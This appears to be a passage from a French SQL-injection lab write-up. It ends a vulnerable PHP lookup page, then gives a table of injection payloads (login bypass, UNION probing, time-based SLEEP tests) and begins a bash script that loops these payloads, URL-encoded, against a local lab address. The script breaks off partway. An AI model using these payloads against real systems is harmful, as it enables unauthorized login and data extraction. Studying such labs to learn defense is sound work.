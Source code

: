 ```php
        echo "Aucun utilisateur trouvé.";
    }
} else {
    echo "Utilisez ?username=admin dans l'URL pour tester.";
}

$conn->close();
?>

```

Maintenant : 

![screen](Screen/connexion_sqli.png)

# Attaques SQLI

| Payloads                                     | Effets                                         |
| -------------------------------------------- | ---------------------------------------------- |
| ' OR 1=1 --                                  | bypass login                                   |
| admin' --                                    | Ignore tout ce qui suit (-- = commentaire)     |
| ' UNION SELECT 1,2,3 --                      | Test si UNION est autorisé (injection avancée) |
| ' AND (SELECT 1 FROM dual WHERE SLEEP(5)) -- | Si réponse lente ➔ vulnérable Time-Based       |
**`vim script_sql.sh`** : 

```bash
#!/bin/bash

# URL de la cible (modifie-la si besoin)
TARGET="http://192.168.160.130:8083/index.php"

# Liste de payloads à tester
PAYLOADS=(
    "admin' OR 1=1 --"
    "admin'--"
    "' OR '1'='1' --"
    "admin' UNION SELECT 1,2,3 --"
    "admin' AND SLEEP(5) --"
    "' OR EXISTS(SELECT * FROM users) --"
    "admin' OR '1'='1' #"
    "admin' OR 'a'='a' --"
    "' OR ''='"
)

echo "[*] Démarrage du test d'injections SQL..."

for payload in "${PAYLOADS[@]}"; do
    # Encodage du payload pour l'URL (très important)
    encoded_payload=$(printf "%s" "$payload" | jq -s -R -r @uri)
    
    echo -e "\n[+] Test du payload : $payload"
```